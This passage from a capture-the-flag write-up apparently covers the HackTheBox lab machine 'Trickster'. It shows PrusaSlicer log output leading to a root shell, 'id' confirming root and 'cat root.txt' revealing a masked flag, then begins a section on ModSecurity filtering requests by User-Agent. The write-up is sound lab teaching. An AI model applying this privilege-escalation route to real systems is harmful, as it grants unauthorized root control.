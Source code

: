 ```
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
30 => Preparing infill
45 => Making infill
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

Loose extrusions
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Collapsing overhang
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Low bed adhesion
TRICKSTER.HTB, Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere

Consider enabling supports.
Also consider enabling brim.
88 => Generating skirt and brim
90 => Exporting G-code to /dev/shm/TRICKSTER.gcode

```

That’s because it’s `bash` waiting for commands:

```

88 => Generating skirt and brim
90 => Exporting G-code to /dev/shm/TRICKSTER.gcode
‍id
uid=0(root) gid=0(root) groups=0(root)

```

I’ll go into `/root` and get the final flag:

```

‍cat root.txt
936793f5************************

```

## Beyond Root - ModSecurity

Something is blocking my requests based on User-Agent header. On the box, I’ll notice that `security2` is one of the enabled modules for Apache:
